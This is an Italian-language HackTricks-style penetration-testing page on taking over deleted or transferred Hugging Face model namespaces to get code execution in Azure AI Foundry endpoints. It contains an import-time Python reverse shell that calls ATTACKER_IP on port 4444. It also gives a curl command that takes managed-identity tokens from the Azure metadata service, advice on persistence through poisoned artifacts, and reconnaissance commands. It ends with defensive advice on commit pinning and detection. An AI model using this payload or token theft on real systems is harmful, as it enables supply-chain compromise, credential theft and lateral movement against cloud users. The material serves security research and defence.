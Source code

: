 # Azure - AI Foundry Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Scenario

- Il Model Catalog di Azure AI Foundry include molti modelli Hugging Face (HF) per il deployment con un click.
- Gli identificatori dei modelli HF sono Author/ModelName. Se un author/org HF viene cancellato, chiunque può re-registrare quell'author e pubblicare un modello con lo stesso ModelName allo stesso legacy path.
- Pipeline e catalog che risolvono solo per nome (no commit pinning/integrity) risolveranno su repo controllati dall'attaccante. Quando Azure deploya il modello, il loader code può eseguire nell'ambiente dell'endpoint, concedendo RCE con i permessi di quell'endpoint.

Casi comuni di takeover HF:
- Ownership deletion: il vecchio path risponde 404 fino al takeover.
- Ownership transfer: il vecchio path risponde 307 verso il nuovo author mentre il vecchio author esiste. Se il vecchio author viene poi cancellato e re-registrato, il redirect si rompe e il repo dell'attaccante viene servito al legacy path.

## Identifying Reusable Namespaces (HF)
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```
## Flusso d'attacco end-to-end contro Azure AI Foundry

1) Nel Model Catalog, trova HF models i cui autori originali sono stati cancellati o trasferiti (autore originale rimosso) su HF.
2) Re-registrare l'autore abbandonato su HF e ricreare il ModelName.
3) Pubblica un repo maligno con codice loader che viene eseguito all'import o richiede trust_remote_code=True.
4) Effettua il deploy del legacy Author/ModelName da Azure AI Foundry. La piattaforma scarica il repo dell'attaccante; il loader viene eseguito all'interno del container/VM dell'endpoint Azure, ottenendo RCE con i permessi dell'endpoint.

Esempio di frammento di payload eseguito all'import (solo a scopo dimostrativo):
```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Note
- Le implementazioni di AI Foundry che integrano HF tipicamente clonano e importano moduli del repo referenziati dalla config del modello (es., auto_map), il che può attivare code execution. Alcuni percorsi richiedono trust_remote_code=True.
- L'accesso di solito corrisponde ai permessi della managed identity/service principal dell'endpoint. Consideralo come un initial access foothold per data access e lateral movement all'interno di Azure.

## Post-Exploitation Tips (Azure Endpoint)

- Enumerare variabili d'ambiente e MSI endpoints per tokens:
```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
- Controlla il mounted storage, i model artifacts e i servizi Azure raggiungibili con il token acquisito.
- Considera la persistence lasciando poisoned model artifacts se la piattaforma re-pulls da HF.

## Indicazioni difensive per gli utenti di Azure AI Foundry

- Fissa i modelli per commit quando li carichi da HF:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Eseguire il mirror dei modelli HF verificati in un registro interno attendibile e distribuirli da lì.
- Scansionare continuamente codebase e defaults/docstrings/notebooks alla ricerca di hard-coded Author/ModelName che sono stati eliminati/trasferiti; aggiornare o pin.
- Verificare l'esistenza dell'author e la provenienza del modello prima della distribuzione.

## Euristiche di riconoscimento (HTTP)

- Author eliminato: author page 404; legacy model path 404 fino al takeover.
- Modello trasferito: legacy path 307 verso il nuovo author mentre il vecchio author esiste; se il vecchio author viene poi eliminato e re-registrato, il legacy path serve attacker content.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Riferimenti incrociati

- Vedi la metodologia più ampia e le note sulla catena di approvvigionamento:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Riferimenti

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
